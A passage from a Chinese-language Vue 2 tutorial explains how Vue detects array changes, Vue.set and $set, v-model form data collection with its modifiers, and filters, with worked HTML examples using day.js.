			<h2>姓名：{{student.name}}</h2>
			<h2 v-if="student.sex">性别：{{student.sex}}</h2>
			<h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
			<h2>朋友们</h2>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				school:{
					name:'尚硅谷',
					address:'北京',
				},
				student:{
					name:'tom',
					age:{
						rAge:40,
						sAge:29,
					},
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				// 向学生对象中添加一个性别属性
				addSex(){
					// Vue.set(this.student,'sex','男')
					this.$set(this.student,'sex','男')
				}
			}
		})
	</script>
</html>
```

> 
> 

## 4. Vue监测数组数据的原理

在vue实例对象上的数组，不像对象类型的数据那样，会为对象数据中的每个属性添加一个getter和setter方法，vue不会为数组数据中的每个元素添加一个getter和setter，即没有数组索引所对应的getter和setter方法。

> 1 中vue数据更新时问题的解释。

> 

但是vue对数组Array上的会对原数组进行修改的方法进行了包装处理，使用vue包装的方法对数组进行修改，可以被vue监测到，从而实现页面的更新。

- Vue包装的Array方法如下：
  - push()
  - pop()
  - shift()
  - unshift()
  - splice()
  - sort()
  - reverse()

上面提到的方法在Vue官网上也提到了：


> 
> 
> 

> 使用set方法对数组的元素进行修改，vue也可以监测得到
> 
> 
> 

> 如果使用上述的方法向数组中添加对象类型的数据，vue为新的对象数据中的属性添加对应的getter和setter方法。
> 只要是对象类型的数据，就有属性对应的getter和setter。

## 5. 练习

### 5.1 题

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>总结数据监视</title>
		<style>
			button{
				margin-top: 10px;
			}
		</style>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="">年龄+1岁</button> <br/>
			<button @click="">添加性别属性，默认值：男</button> <br/>
			<button @click="">修改性别</button> <br/>
			<button @click="">在列表首位添加一个朋友</button> <br/>
			<button @click="">修改第一个朋友的名字为：张三</button> <br/>
			<button @click="">添加一个爱好</button> <br/>
			<button @click="">修改第一个爱好为：开车</button> <br/>
			<button @click="">过滤掉爱好中的抽烟</button> <br/>
			<h3>姓名：{{student.name}}</h3>
			<h3>年龄：{{student.age}}</h3>
			<h3 v-if="student.sex">性别：{{student.sex}}</h3>
			<h3>爱好：</h3>
			<ul>
				<li v-for="(h,index) in student.hobby" :key="index">
					{{h}}
				</li>
			</ul>
			<h3>朋友们：</h3>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:18,
					hobby:['抽烟','喝酒','烫头'],
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				
			}
		})
	</script>
</html>
```

> 

### 5.2 功能实现

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>总结数据监视</title>
		<style>
			button{
				margin-top: 10px;
			}
		</style>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="student.age++">年龄+1岁</button> <br/>
			<button @click="addSex">添加性别属性，默认值：男</button> <br/>
			<button @click="student.sex = '未知' ">修改性别</button> <br/>
			<button @click="addFriend">在列表首位添加一个朋友</button> <br/>
			<button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
			<button @click="addHobby">添加一个爱好</button> <br/>
			<button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
			<button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
			<h3>姓名：{{student.name}}</h3>
			<h3>年龄：{{student.age}}</h3>
			<h3 v-if="student.sex">性别：{{student.sex}}</h3>
			<h3>爱好：</h3>
			<ul>
				<li v-for="(h,index) in student.hobby" :key="index">
					{{h}}
				</li>
			</ul>
			<h3>朋友们：</h3>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:18,
					hobby:['抽烟','喝酒','烫头'],
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				addSex(){
					// 方法一
					// Vue.set(this.student,'sex','男')
					// 方法二
					this.$set(this.student,'sex','男')
				},
				addFriend(){
					this.student.friends.unshift({name:'jack',age:70})
				},
				updateFirstFriendName(){
					// 新添加的元素为对象类型，对象内的属性vue会添加数据监视
					this.student.friends[0].name = '张三'
				},
				addHobby(){
					this.student.hobby.push('学习')
				},
				updateHobby(){
					// 使用splice方法
					// this.student.hobby.splice(0,1,'开车')
					// Vue.set()
					// Vue.set(this.student.hobby,0,'开车')
					// vue实例对象的$set()方法
					this.$set(this.student.hobby,0,'开车')
				},
				removeSmoke(){
					// 由于vue对于filter修改数组没有监视，所以可以使用将过滤完成后的数组放回data实现数据更新
					this.student.hobby = this.student.hobby.filter((h)=>{
						return h !== '抽烟'
					})
				}
			}
		})
	</script>
</html>
```

> 

## 6. 总结 Vue监视数据的原理

1. vue会监视data中所有层次的数据。
2. 如何监测对象中的数据？
   - 通过setter实现监视，且要在new Vue时就传入要监测的数据。
     - (1).对象中后追加的属性，Vue默认不做响应式处理
     - (2).如需给后添加的属性做响应式，请使用如下API：
       - `Vue.set(target，propertyName/index，value)` 或
       - `vm.$set(target，propertyName/index，value)`
3. 如何监测数组中的数据？
   - 通过包裹数组更新元素的方法实现，本质就是做了两件事：
     - (1).调用原生对应的方法对数组进行更新。
     - (2).重新解析模板，进而更新页面。
4. 在Vue修改数组中的某个元素一定要用如下方法：
   - 1.使用这些API：push()、pop()、shift()、unshift()、splice()、sort()、reverse()
   - 2.`Vue.set()` 或 `vm.$set()`
   - 3.对于不会修改原数组的方法，如：filter()、concat() 和 slice()，它们不会变更原始数组，而总是返回一个新数组。当使用非变更方法时，可以用新数组替换旧数组

- 特别注意：`Vue.set()` 和 `vm.$set()` 不能给 vm 或 vm的根数据对象 添加属性 ！ ！ ！

> 数据劫持，数据由原来的形式变为具有getter和setter的形式。
> 当有人修改类数据，修改后的数据会被setter方法所获取(劫持)。
> 

# 16.v-model收集表单数据

------

## 1. 用于数据收集的页面

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>收集表单数据</title>
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<form @submit.prevent="demo">
				账号：<input type="text" > <br/><br/>
				密码：<input type="password" > <br/><br/>
				年龄：<input type="number" > <br/><br/>
				性别：
				男<input type="radio" name="sex" >
				女<input type="radio" name="sex" > <br/><br/>
				爱好：
				学习<input type="checkbox" >
				打游戏<input type="checkbox" >
				吃饭<input type="checkbox" >
				<br/><br/>
				所属校区
				<select >
					<option value="">请选择校区</option>
					<option value="beijing">北京</option>
					<option value="shanghai">上海</option>
					<option value="shenzhen">深圳</option>
					<option value="wuhan">武汉</option>
				</select>
				<br/><br/>
				其他信息：
				<textarea ></textarea> <br/><br/>
				<input type="checkbox" >阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
				<button>提交</button>
			</form>
		</div>
	</body>
</html>
```

## 2. 输入框的数据收集

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      账号：<input type="text" v-model="account" /> <br /><br />
      密码：<input type="password" v-model="password" /> <br /><br />
      {{account}} -- {{password}}
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        account: '',
        password: ''
      },
    })
  </script>
</html>
```

> 

## 3. 单选框(radio)的数据收集

> 由于v-model默认收集的为表单的value属性的值，所以使用v-model收集单选框的数据时，需要先为单选框标签设置value及其对应的值。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      性别：
      <!-- 
        由于v-model默认收集的为表单的value属性的值，
        所以要为单选框标签设置value及其对应的值。 

		将收集到的value值放到data中的sex
      -->
	  男<input type="radio" name="s" v-model="sex" value="male">
	  女<input type="radio" name="s" v-model="sex" value="female"> <br/><br/>
      性别：{{sex}}
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        // 性别默认为男性
        sex: 'male'
      },
    })
  </script>
</html>
```

> 

## 4. 复选框(checkbox)的数据收集

> 对于复选框，如果没有指定value属性，则v-model默认收集的为复选框表单上的checked属性的值(true/false)。
> 如果用于存放收集到的复选框信息的变量不为数组类型，会导致一个勾选全部勾选(v-model的双向绑定)。因为对于不为数组的变量只能放置一个值，所以v-model只能收集其中一个的checked属性的值，由于v-model的双向绑定性质，会导致其他选项出现同样的选择。
> 所以对于复选框也需要配置value属性及其值，同时收集数据的变量的数据类型要为数组类型。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
			爱好：
      <!-- 收集到的数据存放在hobby上 -->
      学习<input type="checkbox" v-model="hobby" value="study">
      打游戏<input type="checkbox" v-model="hobby" value="game">
      吃饭<input type="checkbox" v-model="hobby" value="eat">
      <br/><br/>
      爱好：{{hobby}}
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        // 对于复选框，用于存放收集数据的变量
        // 初始值要为数组
        hobby: []
      },
    })
  </script>
</html>
```

> 

## 5. 下拉选择框(select)的数据收集

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
			所属校区: 
      <select v-model="city">
        <option value="">请选择校区</option>
        <option value="beijing">北京</option>
        <option value="shanghai">上海</option>
        <option value="shenzhen">深圳</option>
        <option value="wuhan">武汉</option>
      </select>
      <br/><br/>
      所属校区: {{city}}
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        // 默认选择 北京
        city: 'beijing'
      },
    })
  </script>
</html>
```

> 

## 6. textarea的数据收集

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
			其他信息：
			<textarea v-model="other"></textarea> <br/><br/>
      其他信息: {{other}}
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        other: ''
      },
    })
  </script>
</html>
```

> 

## 7. 复选框收集checked值

```html
<input type="checkbox">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
```

> 对于此种情况的复选框，我们只需要收集复选框选择/不选的信息即可，此时不要value值，所以不需要配置value值，可以直接收集其checked的值即可。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
			<input type="checkbox" v-model="agree">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
      是否同意: {{agree}}
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        agree: ''
      },
    })
  </script>
</html>
```

> 

## 8. v-model修饰符

为了方便对用户输入的内容进行处理，vue 为 v-model 指令提供了 3 个修饰符，分别是：

| 修饰符  | 作用                           | 示例                             |
| ------- | ------------------------------ | -------------------------------- |
| .number | 自动将用户的输入值转为数值类型 | `<input v-model.number="age" />` |
| .trim   | 自动去除用户输入的首尾空白字符 | `<input v-model.trim="msg" />`   |
| .lazy   | 在失去焦点时更新数据           | `<input v-model.lazy="msg" />`   |

## 9. v-model收集表单数据完整代码

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>收集表单数据</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器-->
    <div id="root">
		<!-- 阻止表的的默认事件 -->
      <form @submit.prevent="demo">
		<!-- v-model.trim 去除用户输入的两端的空白字符 -->
        账号：<input type="text" v-model.trim="userInfo.account" /> <br /><br />
        密码：<input type="password" v-model="userInfo.password" /> <br /><br />
		<!-- type="number" 只允许输入数字， v-model.number 将输入的内容的数据类型转为数字类型 -->
        年龄：<input type="number" v-model.number="userInfo.age" /> <br /><br />
        性别： 男<input type="radio" name="sex" v-model="userInfo.sex" value="male" /> 女<input type="radio" name="sex" v-model="userInfo.sex" value="female" /> <br /><br />
        爱好： 学习<input type="checkbox" v-model="userInfo.hobby" value="study" /> 打游戏<input type="checkbox" v-model="userInfo.hobby" value="game" /> 吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat" /> <br /><br />
        所属校区
        <select v-model="userInfo.city">
          <option value="">请选择校区</option>
          <option value="beijing">北京</option>
          <option value="shanghai">上海</option>
          <option value="shenzhen">深圳</option>
          <option value="wuhan">武汉</option>
        </select>
        <br /><br />
        其他信息：
		<!-- v-model.lazy 在失去焦点时才进行数据的更新 -->
        <textarea v-model.lazy="userInfo.other"></textarea> <br /><br />
        <input type="checkbox" v-model="userInfo.agree" />阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
        <button>提交</button>
      </form>
    </div>
  </body>

  <script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
      el: '#root',
      data: {
		// 将用户信息写成对象形式
        userInfo: {
          account: '',
          password: '',
          age: 18,
          sex: 'female',
          hobby: [],
          city: 'beijing',
          other: '',
          agree: '',
        },
      },
      methods: {
        demo() {
			// 显示用户信息
          console.log(JSON.stringify(this.userInfo))
        },
      },
    })
  </script>
</html>
```

> 
> 

## 10. 总结 收集表单数据

- 若：`<input type="text"/>`，则v-model收集的是value值，用户输入的就是value值。

- 若：`<input type="radio"/>`，则v-model收集的是value值，且要给标签配置value值。

- 若：

  ```
  <input type="checkbox"/>
  ```

  - 1.没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
  - 2.配置input的value属性:
    - (1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    - (2)v-model的初始值是数组，那么收集的的就是value组成的数组

- 备注：v-model的三个修饰符：

  - lazy：失去焦点再收集数据
  - number：输入字符串转为有效的数字
  - trim：输入首尾空格过滤

# 17.过滤器

## 1. 需要实现的案例效果


## 2. 时间格式化包

> 第三方包获取：[BootCDN](https://www.bootcdn.cn/)

### 2.1 moment.js

[moment.js](https://www.bootcdn.cn/moment.js/)

Moment.js 是一个 JavaScript 日期处理类库，用于解析、检验、操作、以及显示日期。

[moment.js中文文档](https://momentjs.bootcss.com/)

### 2.2 day.js

[day.js](https://www.bootcdn.cn/dayjs/)

Day.js 是一个轻量的处理时间和日期的 JavaScript 库，和 Moment.js 的 API 设计保持完全一样.

[day.js的GitHub仓库(参考文档)](https://github.com/iamkun/dayjs)

> 这里使用的是day.js

## 3. 计算属性与方法实现

### 3.1 计算属性实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
    <h2>当前时间：{{nowDateTime}}</h2>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // 当前时间的时间戳
      time: Date.now()
    },
    computed: {
      // 将时间戳转换指定格式的时间
      nowDateTime() {
        return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss');
      }
    }
  })
</script>
</html>
```

> 

### 3.2 方法实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
    <h2>当前时间：{{getDateTime()}}</h2>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // 当前时间的时间戳
      time: Date.now()
    },
    methods: {
      // 将时间戳转换指定格式的时间
      getDateTime() {
        return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss');
      }
    },
  })
</script>
</html>
```

> 

## 4. 过滤器

> Vue3弃用

过滤器（Filters）是 vue 为开发者提供的功能，常用于文本或数据的格式化。例如上述时间戳的格式化。

过滤器可以用在两个地方：插值表达式和 v-bind 属性绑定。

### 4.1 语法

过滤器应该被添加在 JavaScript 表达式的尾部，由“管道符 `|`”进行调用

> 过滤器的本质为函数

```js
使用在插值表达式中：

{{需要格式化的数据 | 过滤器函数}}
```

### 4.2 过滤器实现时间戳的转换

在 filters 节点中定义过滤器。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
    <!-- 通过管道符调用过滤器 -->
    <h2>当前时间：{{time | getDateTime}}</h2>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // 当前时间的时间戳
      time: Date.now()
    },
    filters: {
      // 将时间戳转换指定格式的时间
      getDateTime() {
        return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss');
      }
    }
  })
</script>
</html>
```

> 

### 4.3 过滤器的执行过程


### 4.4 向过滤器传递其他参数

> 现在要实现一个功能，在使用过滤器处理对应的数据时，可以传递参数来指定处理后的数据的格式。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
    <!-- 通过管道符调用过滤器 -->
    <!-- 需要进行格式化处理的数据vue会默认进行传递，不需要我们主动传递 -->
    <!-- 我们传递的其他参数会在需要进行格式化处理的数据之后 -->
    <h2>当前时间：{{time | getDateTime('YYYY/MM/DD')}}</h2>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // 当前时间的时间戳
      time: Date.now()
    },
    filters: {
      // 将时间戳转换指定格式的时间
      // 第一个参数为需要进行格式化处理的数据
      // 第二个参数为指定的格式
      // 为了避免其他没有传递指定格式的调用，为formatStr设置默认值
      getDateTime(value, formatStr='YYYY-MM-DD HH:mm:ss') {
        return dayjs(value).format(formatStr);
      }
    }
  })
</script>
</html>
```

> 

### 4.5 串联调用过滤器

串联调用过滤器，过滤器的执行顺序为从左到右，第一个调用的过滤器的参数为将要进行格式化处理的数据，此后每个过滤器的参数为前一个过滤器的返回结果。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
    <h2>当前时间：{{time | getDateTime('YYYY/MM/DD') | mySlice}}</h2>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      time: Date.now()
    },
    filters: {
      getDateTime(value, formatStr='YYYY-MM-DD HH:mm:ss') {
        return dayjs(value).format(formatStr);
      },
      // 截取前四个字符
      mySlice(value) {
        return value.slice(0, 4)
      }
    }
  })
</script>
</html>
```

> 

### 4.6 定义全局过滤器

> 以上的过滤器都是定义在一个vue实例中，为局部过滤器。

定义全局过滤器的语法：

```html
Vue.filter('过滤器名', 对应的处理函数)
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
